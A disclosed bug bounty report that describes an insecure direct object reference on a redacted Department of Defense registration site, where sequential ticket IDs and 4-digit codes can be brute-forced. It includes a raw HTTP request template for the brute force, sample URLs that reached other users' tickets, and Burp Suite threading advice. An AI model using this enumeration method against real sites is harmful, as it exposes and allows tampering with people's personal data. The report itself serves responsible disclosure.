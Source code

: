 # [█████] Get all tickets (IDOR)

## Report Details
- **Report ID**: 498351
- **URL**: https://hackerone.com/reports/498351
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-02-19T23:49:48.991Z
- **Disclosed**: 2019-12-02T19:12:18.591Z

## Reporter
- **Username**: jarvis0x1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
In this report I want to describe an interesting vulnerability that allows you to extract tickets with personal data on the site. When user registering a new entry, the user receives a link with a ticket number and a random 4-digit code. The vulnerability is that this code can be easily bruted, so the entire database can be iterated.

### Steps to reproduce

1) Go to page https://█████/daumw2017/Registration.aspx and register
2) After registering you will be redirect to page look like this https://██████/daumw2017/ThankYou.aspx?PID=12004&RNo=4387

PID - number of ticket
RNo - random number (4 digits)

So I can decrement PID and brute RNo, and when I guess Rno for current PID, I will get info about ticket.

3) Use this request for brute
```
GET /daumw2017/ThankYou.aspx?PID=<ID_record>&RNo=<4_digit_random_number> HTTP/1.1
Host: ██████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: ASP.NET_SessionId=40n0abdtjikowu5qzr4e2fyj
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```

Result (not my tickets):

https://███████/daumw2017/ThankYou.aspx?PID=12000&RNo=7380
█████

https://███/daumw2017/ThankYou.aspx?PID=11999&RNo=9841
██████

https://█████████/daumw2017/ThankYou.aspx?PID=11998&RNo=1038
█████████

https://██████/daumw2017/ThankYou.aspx?PID=11997&RNo=8846
███████


If you get access to ticket, you can easy change content of it!

__Optimal number of threads is 20-30 in Burp Suite__

## Impact

Hacker can get access to all tickets on the site, which contain emails, first names, last names and other confidential information. Also, a hacker has the ability to change data of this tickets.

## Attachments
No attachments
